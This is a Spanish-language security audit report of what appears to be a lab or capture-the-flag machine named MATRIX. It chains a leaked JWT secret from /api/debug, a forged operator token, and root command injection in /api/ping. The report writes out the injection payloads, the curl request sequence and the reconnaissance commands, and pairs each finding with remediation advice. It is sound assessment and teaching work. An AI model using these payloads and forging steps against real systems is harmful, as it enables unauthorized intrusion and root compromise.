










# Auditoría de Seguridad — MATRIX

> **Nota:** esta es la versión pública del informe. El secreto JWT, los tokens de sesión y la flag han sido redactados; en las capturas se difuminaron las zonas sensibles.

**Objetivo:** `172.17.0.2`  
**Servicio evaluado:** Aplicación web MATRIX (Node.js / Express)  
**Fecha:** 19 de noviembre de 2026  
**Analista:** chifay  
**Clasificación:** Público  
**Riesgo global:** **CRÍTICO**


## 1. Resumen ejecutivo

La evaluación de seguridad sobre el laboratorio MATRIX identificó una cadena de vulnerabilidades que permite a un atacante **no autenticado** comprometer completamente el servicio y ejecutar comandos arbitrarios con privilegios de `root`.

El punto de entrada es un endpoint de depuración publicado accidentalmente (`/api/debug`) que expone el secreto de firma de los tokens JWT. Con esa clave, es posible falsificar un token con rol `operator`, acceder al panel interno `/construct` y explotar una **inyección de comandos OS** en `/api/ping`. Dado que el proceso Node.js se ejecuta como `root`, la inyección deriva en control total del contenedor y en la lectura de la flag final.

La explotación se completó de forma remota por HTTP/3000, sin credenciales legítimas y sin interacción de la víctima. El riesgo se clasifica como **Crítico**.

**Resultado principal:** `MATRIX{REDACTADO}`

### Hallazgos principales

| ID | Hallazgo | Severidad | CVSS 3.1 |
|---|---|---|---|
| F-01 | Exposición no autenticada del secreto JWT en `/api/debug` | **Crítica** | 9.8 |
| F-02 | Emisión de sesión válida sin validar credenciales | **Media** | 5.3 |
| F-03 | Falsificación de JWT y escalada de privilegios a operador | **Crítica** | 9.1 |
| F-04 | Inyección de comandos OS en `/api/ping` | **Crítica** | 9.8 |
| F-05 | Servicio Node.js ejecutado con privilegios de root | **Alta** | 8.8 |
| F-06 | Cookie de sesión sin atributos de seguridad | **Baja** | 3.1 |
| F-07 | Divulgación de tecnología y versión | **Baja** | 3.7 |

### Impacto en una frase

Un atacante con acceso de red al puerto 3000 puede pasar de visitante anónimo a **ejecutar comandos como root** y leer información protegida del sistema, sin necesidad de credenciales ni de explotar el sistema operativo anfitrión.

## 2. Alcance y criterios de evaluación

| Elemento | Detalle |
|---|---|
| Dirección objetivo | `172.17.0.2` |
| Puertos identificados | `22/tcp` SSH, `3000/tcp` HTTP |
| Aplicación | MATRIX — Node.js / Express |
| Superficie evaluada | Aplicación web, API, autenticación, autorización, panel interno y herramientas de diagnóstico |
| Tipo de pruebas | Enumeración, descubrimiento de contenido, análisis y manipulación de JWT, explotación controlada de RCE y verificación de impacto |
| Fuera de alcance | Denegación de servicio, fuerza bruta sobre SSH, ingeniería social y sistemas fuera del objetivo |

**Referencias aplicadas:** OWASP Top 10 2021 (A01 Broken Access Control, A02 Cryptographic Failures, A03 Injection, A05 Security Misconfiguration, A07 Identification and Authentication Failures), MITRE ATT&CK y NIST SP-DEV-002 (Software Security Assessor).

## 3. Hallazgos detallados

### F-01 — Exposición no autenticada del secreto JWT en `/api/debug`

**Severidad:** **Crítica** · **CVSS 3.1:** 9.8 · **CWE:** CWE-200, CWE-306, CWE-321

**Descripción.** El endpoint `GET /api/debug` está publicado sin autenticación y devuelve la configuración interna de la aplicación, incluida la clave utilizada para firmar los tokens JWT. Cualquier usuario con acceso al puerto 3000 puede obtenerla.

**Evidencia.**

```http
GET /api/debug HTTP/1.1
Host: 172.17.0.2:3000
```

```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8

{"app":"matrix-construct","version":"1.0.0","config":{"jwt_secret":"[REDACTADO]"}}
```



*Figura 1. Enumeración de la API: el endpoint `debug` responde con HTTP 200.*



*Figura 2. Respuesta del endpoint de depuración con la clave de firma JWT.*

**Impacto.** La clave permite firmar tokens arbitrarios con cualquier identidad y rol. La exposición convierte una aplicación con control de acceso en un sistema sin autenticación efectiva. El endpoint también revela el nombre y la versión de la aplicación, lo que facilita la búsqueda de vulnerabilidades conocidas.

**Recomendación.** Eliminar `/api/debug` de todos los entornos productivos. Gestionar el secreto mediante un almacén de secretos (Vault, AWS Secrets Manager, etc.), rotarlo inmediatamente y auditar su uso. Nunca devolver configuración interna en respuestas HTTP.


### F-02 — Emisión de sesión válida sin validar credenciales

**Severidad:** **Media** · **CVSS 3.1:** 5.3 · **CWE:** CWE-287

**Descripción.** El formulario de acceso envía las credenciales a `POST /login`, pero el servidor no las valida: cualquier combinación de usuario y contraseña devuelve un token JWT firmado con rol `guest`. Se comprobó con `guest:guest`, `admin:admin` y `admin:password`, obteniendo en todos los casos una sesión válida.

**Evidencia.**

```http
POST /login HTTP/1.1
Host: 172.17.0.2:3000
Content-Type: application/x-www-form-urlencoded

username=guest&password=guest
```

```http
HTTP/1.1 302 Found
Set-Cookie: token=[REDACTADO]; Path=/
Location: /dashboard
```



*Figura 3. El login devuelve un JWT de sesión aunque no exista una validación real de credenciales.*

**Impacto.** Cualquier atacante obtiene una sesión autenticada de baja privilegio, lo que le permite interactuar con la superficie autenticada, analizar el formato del token y preparar la escalada de privilegios. Aunque el rol inicial sea `guest`, la emisión indiscriminada de tokens reduce la autenticación a una formalidad.

**Recomendación.** Validar credenciales contra un almacén seguro con hash robusto (Argon2id, bcrypt o scrypt). Aplicar rate limiting y bloqueo progresivo, exigir MFA para roles privilegiados y separar los tokens de invitado de los tokens de operador (emisor, clave y scopes distintos).


### F-03 — Falsificación de JWT y escalada de privilegios a operador

**Severidad:** **Crítica** · **CVSS 3.1:** 9.1 · **CWE:** CWE-321, CWE-863

**Descripción.** Con el secreto obtenido en F-01 se firmó un token HS256 con el payload `{"username":"neo","role":"operator", ...}`. La aplicación confía en el rol incluido en el token y no lo contrasta con una fuente autoritativa del servidor. El token forjado fue aceptado y permitió acceder a `/construct`, que devolvía `403 Insufficient clearance` con el token de invitado.

**Evidencia.**

```bash
python3 forge.py "$JWT_SECRET"
```

```text
[+] JWT forjado (role=operator):
[TOKEN_JWT_REDACTADO]
[+] Payload:
{
  "username": "neo",
  "role": "operator",
  "iat": 1795127585,
  "exp": 1795213985
}
```

```http
GET /construct HTTP/1.1
Host: 172.17.0.2:3000
Cookie: token=[TOKEN_JWT_REDACTADO]
```

```http
HTTP/1.1 200 OK

⚡ OPERATOR
```



*Figura 4. Generación del token falsificado con el secreto expuesto.*



*Figura 5. `/construct` responde 200 y muestra el panel de diagnóstico de operador.*

**Impacto.** Bypass completo del control de autorización. Un atacante obtiene acceso a herramientas internas reservadas a operadores y puede encadenar esta posición con otras vulnerabilidades, como la inyección de comandos de F-04.

**Recomendación.** No confiar en roles enviados por el cliente. Mantener la autorización del lado del servidor (base de datos o proveedor de identidad) y verificar el rol en cada operación sensible. Usar claves de firma de al menos 256 bits generadas aleatoriamente, rotación periódica, `iss`, `aud`, `jti` y tiempos de expiración cortos. Incluir revocación y detección de tokens anómalos.


### F-04 — Inyección de comandos OS en `/api/ping`

**Severidad:** **Crítica** · **CVSS 3.1:** 9.8 · **CWE:** CWE-78

**Descripción.** El panel de diagnóstico envía el campo `target` a `POST /api/ping`. El valor se utiliza en un contexto de shell, por lo que un atacante puede inyectar comandos adicionales usando `;`, `&&`, `|` o sustitución de comandos. La ejecución se realiza con la identidad del proceso Node.js, que en este caso es `root`.

**Evidencia.**

```http
POST /api/ping HTTP/1.1
Host: 172.17.0.2:3000
Cookie: token=<JWT role=operator>
Content-Type: application/json

{"target":"127.0.0.1; id; hostname"}
```

```json
{"output":"uid=0(root) gid=0(root) groups=0(root)\nmatrix\n"}
```

```http
POST /api/ping HTTP/1.1
Content-Type: application/json

{"target":"127.0.0.1; cat /root/flag.txt"}
```

```json
{"output":"MATRIX{REDACTADO}\n"}
```



*Figura 6. La inyección `; id; hostname` confirma ejecución como `root` en el host `matrix`.*



*Figura 7. Lectura de `/root/flag.txt` a través de la inyección de comandos.*

**Impacto.** Ejecución remota de comandos con máximos privilegios. El atacante puede leer, modificar o eliminar información, instalar persistencia, acceder a secretos y utilizar el contenedor como punto de apoyo para movimiento lateral. La flag final del laboratorio se obtiene directamente.

**Recomendación.** No construir comandos de shell con entrada del usuario. Usar `child_process.execFile('ping', ['-c', '1', '--', target])` o `spawn` con un array de argumentos y `shell: false`. Validar `target` con una allowlist estricta de direcciones IP o nombres de host, limitar la longitud, aplicar timeouts y ejecutar la herramienta con un usuario sin privilegios. Deshabilitar la funcionalidad de diagnóstico en producción si no es imprescindible.


### F-05 — Servicio Node.js ejecutado con privilegios de root

**Severidad:** **Alta** · **CVSS 3.1:** 8.8 · **CWE:** CWE-250

**Descripción.** El proceso de la aplicación se ejecuta como `root` dentro del contenedor. La comprobación mediante la inyección de comandos devolvió `uid=0(root) gid=0(root)`, y la flag se encontraba en `/root/flag.txt` con permisos `-r-------- root root`.

**Evidencia.**

```text
uid=0(root) gid=0(root) groups=0(root)
matrix
```


*Figura 8. El proceso comprometido se ejecuta como `root`.*

**Impacto.** Cualquier vulnerabilidad de ejecución de código, inyección o deserialización se transforma inmediatamente en un compromiso total del contenedor. No existe una frontera de privilegios que limite el alcance del ataque.

**Recomendación.** Ejecutar la aplicación con un usuario dedicado sin privilegios (`USER app` en la imagen Docker), sistema de archivos de solo lectura, capacidades mínimas, `no-new-privileges`, seccomp/AppArmor y una red restringida. Almacenar la flag y otros secretos fuera del contenedor o en un gestor de secretos con acceso mínimo.


### F-06 — Cookie de sesión sin atributos de seguridad

**Severidad:** **Baja** · **CVSS 3.1:** 3.1 · **CWE:** CWE-1004, CWE-614

**Descripción.** La cookie `token` se emite con `Path=/` pero sin `HttpOnly`, `Secure` ni `SameSite`. El token viaja además por HTTP sin cifrar.

**Evidencia.**

```http
Set-Cookie: token=[REDACTADO]; Path=/
```

**Impacto.** Un XSS podría leer el token desde JavaScript; una solicitud cross-site podría reutilizarlo; y un atacante en la red podría interceptarlo al no existir TLS. Esto facilita el robo y la reutilización de sesiones.

**Recomendación.** Emitir cookies con `HttpOnly; Secure; SameSite=Strict`, servir la aplicación exclusivamente por HTTPS con HSTS, acortar la vida del token y establecer rotación/revocación.


### F-07 — Divulgación de tecnología y versión

**Severidad:** **Baja** · **CVSS 3.1:** 3.7 · **CWE:** CWE-200

**Descripción.** Las respuestas incluyen `X-Powered-By: Express`, y `/api/debug` revela el nombre y la versión de la aplicación (`matrix-construct`, `1.0.0`). Esta información reduce el coste de reconocimiento y facilita la selección de exploits o técnicas específicas.

**Evidencia.**

```http
HTTP/1.1 200 OK
X-Powered-By: Express
```

**Recomendación.** Deshabilitar `X-Powered-By` (`app.disable('x-powered-by')`), eliminar endpoints de depuración y devolver mensajes de error genéricos. Mantener las dependencias actualizadas y aplicar un proceso de gestión de vulnerabilidades.


## 4. Cadena de explotación

La siguiente secuencia resume el compromiso completo:

```text
[Red local]
    │
    │ 1. GET /api/debug                → secreto JWT sin autenticación
    ▼
[Secreto: [REDACTADO]]
    │
    │ 2. Firma HS256 con role=operator
    ▼
[Token de operador válido]
    │
    │ 3. GET /construct                → 200 OK, panel de diagnóstico
    ▼
[Acceso a herramienta interna]
    │
    │ 4. POST /api/ping {"target":"127.0.0.1; id"}
    ▼
[Ejecución de comandos como root]
    │
    │ 5. cat /root/flag.txt
    ▼
[MATRIX{REDACTADO}]
```

**Resumen de comandos ejecutados:**

```bash
# 1. Reconocimiento
nmap -p- --min-rate 2000 -T4 -Pn 172.17.0.2
nmap -sV -p22,3000 -Pn 172.17.0.2

# 2. Descubrimiento de contenido
ffuf -u http://172.17.0.2:3000/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
  -mc all -fc 404 -t 100

# 3. Obtención de sesión de invitado
curl -s -c guest.jar -X POST http://172.17.0.2:3000/login \
  -d 'username=guest&password=guest' -o /dev/null

# 4. Verificación del control de acceso
curl -s -i -b guest.jar http://172.17.0.2:3000/construct

# 5. Descubrimiento de la API y del secreto
ffuf -u http://172.17.0.2:3000/api/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt \
  -mc all -fc 404 -t 80
curl -s http://172.17.0.2:3000/api/debug | jq

# 6. Forja del token de operador
python3 forge.py "$JWT_SECRET"

# 7. Acceso al panel interno
curl -s -o /dev/null -w 'HTTP %{http_code}\n' \
  -b "token=$(cat operator.jwt)" http://172.17.0.2:3000/construct

# 8. Inyección de comandos y captura de la flag
curl -s -b "token=$(cat operator.jwt)" \
  -H 'Content-Type: application/json' \
  -d '{"target":"127.0.0.1; id; hostname"}' \
  http://172.17.0.2:3000/api/ping | jq -r .output

curl -s -b "token=$(cat operator.jwt)" \
  -H 'Content-Type: application/json' \
  -d '{"target":"127.0.0.1; cat /root/flag.txt"}' \
  http://172.17.0.2:3000/api/ping | jq -r .output
```

## 5. Impacto

| Dimensión | Impacto |
|---|---|
| Confidencialidad | **Alto.** Acceso a archivos del sistema, secretos de firma y flag final. |
| Integridad | **Alto.** Ejecución arbitraria de comandos como root; posibilidad de modificar la aplicación, archivos y configuración. |
| Disponibilidad | **Alto.** El atacante puede detener procesos o destruir datos con los máximos privilegios. |
| Alcance | Compromiso total del contenedor. La exposición de SSH en el puerto 22 amplía la superficie para un posible movimiento lateral. |
| Negocio | Pérdida de confianza, exposición de información sensible y riesgo de incumplimiento si el servicio se desplegara con datos reales. |

## 6. Recomendaciones priorizadas

| Prioridad | Acción | Hallazgos |
|---|---|---|
| **P0 — Inmediata** | Rotar el secreto JWT, invalidar todos los tokens emitidos y eliminar `/api/debug` de producción. | F-01, F-03 |
